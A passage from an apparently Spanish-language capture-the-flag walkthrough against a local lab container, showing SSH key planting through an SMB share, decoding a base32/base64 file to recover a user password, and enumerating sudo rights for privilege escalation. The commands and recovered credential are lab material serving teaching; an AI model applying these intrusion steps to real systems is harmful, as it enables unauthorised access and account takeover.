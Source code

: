 Eliminar el salto de línea en la clave pública:

```shell

cat ./id_rsa.pub | tr -d '\n' 

```

Ahora lo metemos en el directorio de macarena en un **/.ssh/authorized_keys**:

```shell

smbclient //172.17.0.2/macarena -U macarena
mkdir .ssh
cd .ssh
put id_rsa.pub
rename id_rsa authorized_keys

```

Y ahora accedemos mediante **ssh**:
```shell

ssh macarena@172.17.0.2 -i id_rsa

```

YA ESTAMOS COMO MACARENA.
# ESCALADA PRIVILEGIOS

Vemos que hay un **hash** en un directorio **secret**:

   ```bash
macarena@4e3f25c9a36e:/home$ cd secret/
macarena@4e3f25c9a36e:/home/secret$ ls
hash
macarena@4e3f25c9a36e:/home/secret$ cat hash
MMZVM522LBFHUWSXJYYWG3KWO5MVQTT2MQZDS6K2IE6T2===
macarena@4e3f25c9a36e:/home/secret$ cat hash | base64 -d
0�U3��,GQd�%��;�A4�1CK�� N�base64: invalid input
macarena@4e3f25c9a36e:/home/secret$ echo "MMZVM522LBFHUWSXJYYWG3KWO5MVQTT2MQZDS6K2IE6T2===" | base32 --decode
c3VwZXJzZWN1cmVwYXNzd29yZA==macarena@4e3f25c9a36e:/home/secret$ echo "c3VwZXJzZWN1cmVwYXNzd29yZA==" | base64 -d
supersecurepasswordmacarena@4e3f25c9a36e:/home/secret$ 


```

**Contra -> supersecurepassword**

ES LA CONTRA DE MACARENA y la usaremos para ver los archivos con permisos SUDO.

```bash

macarena@4e3f25c9a36e:/home/secret$ sudo -l
[sudo] password for macarena: 
Matching Defaults entries for macarena on 4e3f25c9a36e:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, use_pty

User macarena may run the following commands on 4e3f25c9a36e:
    (ALL : ALL) /usr/bin/file

```
